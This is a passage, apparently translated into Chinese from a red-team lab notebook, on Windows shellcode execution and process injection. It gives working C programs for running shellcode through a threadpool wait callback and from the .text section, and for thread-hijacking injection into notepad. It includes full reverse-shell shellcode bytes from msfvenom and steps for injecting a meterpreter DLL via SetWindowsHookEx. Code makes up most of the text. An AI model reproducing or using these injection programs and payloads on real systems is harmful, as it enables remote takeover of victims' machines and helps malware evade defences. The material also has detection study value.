"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";


int main()
{
	HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);
	LPVOID shellcodeAddress = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	RtlMoveMemory(shellcodeAddress, shellcode, sizeof(shellcode));

	PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)shellcodeAddress, NULL, NULL);
	SetThreadpoolWait(threadPoolWait, event, NULL);
	WaitForSingleObject(event, INFINITE);
	
	return 0;
}
```

## 无需 Windows API 的本地 Shellcode 执行

可以从本地进程执行 shellcode，而无需使用众所周知的 Windows API（例如`VirtualAlloc`或`CreateThread`类似的 API）。众所周知，恶意软件会使用这种技术，因此我也想捕获它。

为了实现这一点，我们需要使用 MS Visual C++ 和一个`section`编译指示，以及`allocate`声明符说明符，告诉编译器我们希望我们的 shellcode 分配在`.text`可移植可执行文件的部分内，这样程序就不需要分配 RWX用于存储 shellcode 的内存 blob。此外，我们需要将包含 shellcode 的数组转换为函数指针并调用它 - 这允许我们跳过`CreateThread`通常用于跳转到 shellcode 的类似 Windows API。

```c
#pragma section(".text")

// msvenom -p windows/x64/shell_reverse_tcp lhost=X lport=Y -f c
__declspec(allocate(".text")) char goodcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x38\x66\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

int main()
{
    (*(void(*)())(&goodcode))();
}
```

编译上述代码并检查`.text`PE 部分后，我们可以在开头看到我们的 shellcode：

## 通过线程劫持注入远程进程

下面列出了执行此技术所需的 API 调用：

打开我们想要注入的进程的句柄（在我们的例子中是记事本）`targetProcessHandle``OpenProcess`

在目标进程中分配一些可执行内存`remoteBuffer``VirtualAllocEx`

编写我们想要注入内存`remoteBuffer`（在步骤 2 中分配）的 shellcode，使用`WriteProcessMemory`

在目标进程中找到我们想要劫持的线程的线程ID。在我们的例子中，我们将获取目标进程（记事本）中第一个线程的线程 ID。

我们将利用`CreateToolhelp32Snapshot`创建`snapshot`目标进程的线程并使用 枚举它们`Thread32Next`。

这将为我们提供我们将要劫持的线程 ID。使用以下命令打开`threadHijacked`要劫持的线程的句柄`OpenThread`挂起目标线程 - 我们想要劫持 ( ) 的线程`threadHijacked``SuspendThread`检索目标线程的上下文`GetThreadContext`更新目标线程（在步骤 6 中检索）的指令指针（`RIP`寄存器）以指向 shellcode，该 shellcode 在步骤 3 中使用写入到目标进程的内存中`WriteProcessMemory`

提交被劫持线程的（在步骤 7 中更新的）新上下文：`SetThreadContext`

恢复被劫持的线程`ResumeThread`

享受反向shell

```c
#include "stdio.h"
#include "Windows.h"
#include <windows.h>
#include <tlhelp32.h>
#include <tchar.h>

int main(int argc, char* argv[])
{
	unsigned char buf[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef"
		"\xff\xff\xff\x48\xbb\xa1\x88\x82\x73\xee\xc2\xdd\x4e\x48"
		"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x5d\xc0\x01"
		"\x97\x1e\x2a\x1d\x4e\xa1\x88\xc3\x22\xaf\x92\x8f\x1f\xf7"
		"\xc0\xb3\xa1\x8b\x8a\x56\x1c\xc1\xc0\x09\x21\xf6\x8a\x56"
		"\x1c\x81\xc0\x09\x01\xbe\x8a\xd2\xf9\xeb\xc2\xcf\x42\x27"
		"\x8a\xec\x8e\x0d\xb4\xe3\x0f\xec\xee\xfd\x0f\x60\x41\x8f"
		"\x32\xef\x03\x3f\xa3\xf3\xc9\xd3\x3b\x65\x90\xfd\xc5\xe3"
		"\xb4\xca\x72\x3e\x49\x5d\xc6\xa1\x88\x82\x3b\x6b\x02\xa9"
		"\x29\xe9\x89\x52\x23\x65\x8a\xc5\x0a\x2a\xc8\xa2\x3a\xef"
		"\x12\x3e\x18\xe9\x77\x4b\x32\x65\xf6\x55\x06\xa0\x5e\xcf"
		"\x42\x27\x8a\xec\x8e\x0d\xc9\x43\xba\xe3\x83\xdc\x8f\x99"
		"\x68\xf7\x82\xa2\xc1\x91\x6a\xa9\xcd\xbb\xa2\x9b\x1a\x85"
		"\x0a\x2a\xc8\xa6\x3a\xef\x12\xbb\x0f\x2a\x84\xca\x37\x65"
		"\x82\xc1\x07\xa0\x58\xc3\xf8\xea\x4a\x95\x4f\x71\xc9\xda"
		"\x32\xb6\x9c\x84\x14\xe0\xd0\xc3\x2a\xaf\x98\x95\xcd\x4d"
		"\xa8\xc3\x21\x11\x22\x85\x0f\xf8\xd2\xca\xf8\xfc\x2b\x8a"
		"\xb1\x5e\x77\xdf\x3a\x50\xb5\xae\x7c\xfe\xbb\xb0\x73\xee"
		"\x83\x8b\x07\x28\x6e\xca\xf2\x02\x62\xdc\x4e\xa1\xc1\x0b"
		"\x96\xa7\x7e\xdf\x4e\xa0\x33\x42\xdb\xac\x40\x9c\x1a\xe8"
		"\x01\x66\x3f\x67\x33\x9c\xf4\xed\xff\xa4\x74\x11\x17\x91"
		"\xc7\x4b\xe0\x83\x72\xee\xc2\x84\x0f\x1b\xa1\x02\x18\xee"
		"\x3d\x08\x1e\xf1\xc5\xb3\xba\xa3\xf3\x1d\x06\x5e\x48\xca"
		"\xfa\x2c\x8a\x22\x8e\xe9\x01\x43\x32\x54\x28\xd2\x91\x41"
		"\x77\x57\x3b\x67\x05\xb7\x5e\xe0\xd0\xce\xfa\x0c\x8a\x54"
		"\xb7\xe0\x32\x1b\xd6\x9a\xa3\x22\x9b\xe9\x09\x46\x33\xec"
		"\xc2\xdd\x07\x19\xeb\xef\x17\xee\xc2\xdd\x4e\xa1\xc9\xd2"
		"\x32\xbe\x8a\x54\xac\xf6\xdf\xd5\x3e\xdf\x02\xb7\x43\xf8"
		"\xc9\xd2\x91\x12\xa4\x1a\x0a\x85\xdc\x83\x72\xa6\x4f\x99"
		"\x6a\xb9\x4e\x82\x1b\xa6\x4b\x3b\x18\xf1\xc9\xd2\x32\xbe"
		"\x83\x8d\x07\x5e\x48\xc3\x23\xa7\x3d\x15\x03\x28\x49\xce"
		"\xfa\x2f\x83\x67\x37\x6d\xb7\x04\x8c\x3b\x8a\xec\x9c\xe9"
		"\x77\x48\xf8\xe0\x83\x67\x46\x26\x95\xe2\x8c\x3b\x79\x2d"
		"\xfb\x03\xde\xc3\xc9\x48\x57\x60\xd3\x5e\x5d\xca\xf0\x2a"
		"\xea\xe1\x48\xdd\x82\x02\x88\x0e\xb7\xd8\xf5\xe6\x9b\xf0"
		"\x1c\x84\xc2\x84\x0f\x28\x52\x7d\xa6\xee\xc2\xdd\x4e";

	HANDLE targetProcessHandle;
	PVOID remoteBuffer;
	HANDLE threadHijacked = NULL;
	HANDLE snapshot;
	THREADENTRY32 threadEntry;
	CONTEXT context;

	DWORD targetPID = 15048;
	context.ContextFlags = CONTEXT_FULL;
	threadEntry.dwSize = sizeof(THREADENTRY32);

	targetProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
	remoteBuffer = VirtualAllocEx(targetProcessHandle, NULL, sizeof buf, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(targetProcessHandle, remoteBuffer, buf, sizeof buf, NULL);

	snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	Thread32First(snapshot, &threadEntry);

	while (Thread32Next(snapshot, &threadEntry))
	{
		if (threadEntry.th32OwnerProcessID == targetPID)
		{
			threadHijacked = OpenThread(THREAD_ALL_ACCESS, FALSE, threadEntry.th32ThreadID);
			break;
		}
	}

	SuspendThread(threadHijacked);

	GetThreadContext(threadHijacked, &context);
	context.Rip = (DWORD_PTR)remoteBuffer;
	SetThreadContext(threadHijacked, &context);

	ResumeThread(threadHijacked);
}

```

## SetWindowHookEx 代码注入

Windows 允许程序安装钩子来监视各种系统事件，例如使用`SetWindowHookEx`.

在本实验中，`SetWindowHookEx`我们将恶意 DLL 注入到 notepad.exe 中，然后执行meterpreter shellcode。

创建一个导出一个函数的恶意 DLL，该函数在被调用时会执行 meterpreter shellcode

创建另一个程序来加载恶意二进制文件：

导出函数的解析地址

安装键盘挂钩。然后钩子指向导出的函数

Notepad.exe 由受害者启动并注册按键

由于键盘事件被挂钩，notepad.exe 会加载到我们的恶意 dll 中并调用导出的函数

在攻击系统上建立 Meteterpreter 会话
